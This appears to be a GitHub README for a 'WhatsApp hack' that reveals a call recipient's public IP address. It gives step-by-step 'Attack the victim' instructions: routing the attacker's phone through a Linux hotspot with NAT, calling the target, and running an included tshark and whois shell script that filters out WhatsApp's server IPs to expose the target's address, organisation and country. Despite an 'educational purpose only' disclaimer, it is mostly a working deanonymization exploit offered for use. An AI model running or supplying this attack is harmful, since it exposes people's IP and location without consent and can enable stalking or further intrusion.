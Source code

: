 # New WhatsApp Hack! 
![](https://img.shields.io/github/license/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/issues/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/issues-closed/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/badge/Python-3-blue)
![](https://img.shields.io/github/forks/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/stars/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/github/last-commit/Sahil2rick/Whatsapp-hack)
[![HitCount](http://hits.dwyl.com/Sahil2rick/Whatsapp-hack)](http://hits.dwyl.com/Sahil2rick/Whatsapp-hack)
![](https://img.shields.io/badge/platform-Linux%20%7C%20KaliLinux%20%7C%20ParrotOs-blue)
  Public IP from victim caller.

This program is for Educational purpose ONLY. Do not use it without permission. I am not responsible for any of your actions. Use this tool with caution.

## Attack the victim ##

## Install hotspotd with these steps:
```
wget https://github.com/prahladyeri/hotspotd/raw/master/dist/hotspotd-latest.tar.gz
tar xvf hotspotd-latest.tar.gz
cd hotspotd-0.1.6/
sudo python setup.py install
```

- Step 1: Start WiFi hotspot on attacker machine and connect attacker phone to attacker SSID
```
sudo hotspotd start
```
- Step 2: Run the following commands:
 ```
 echo 1 > /proc/sys/net/ipv4/ip_forward
 iptables -t nat -I POSTROUTING -j MASQUERADE
 ```
- Step 3: Start the PoC script (below) on attacker machine which is now acting as a router for attacker phone
- Step 4: Call any whatsapp user randomly to capture the server IP addresses to filter
- Step 5: Call victim on his whatsapp
- Step 6: Disconnect the call once established
- Step 7: Script will reveal the public IP address of the target
- Step 8: Validate the public IP address on target phone

# Exploit

```
#!/bin/sh

filter=`tshark -i eth0 -T fields -f "udp" -e ip.dst -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" -c 100 |sort -u |xargs|sed "s/ / and ip.dst!=/g" |sed "s/^/ip.dst!=/g"`

echo "Press Enter and call your target."

read line

tshark -i eth0 -l -T fields -f "udp" -e ip.dst -Y "$filter" -Y "ip.dst!=192.168.0.0/16 and ip.dst!=10.0.0.0/8 and ip.dst!=172.16.0.0/12" | while read line 
do 
	whois $line > /tmp/b

	filter=`cat /tmp/b |xargs| egrep -iv "facebook|google"|wc -l`

	if [ "$filter" -gt 0 ] ; then 
		targetinfo=`cat /tmp/b| egrep -iw "OrgName:|NetName:|Country:"` 
		echo $line --- $targetinfo 
	fi 
done


```
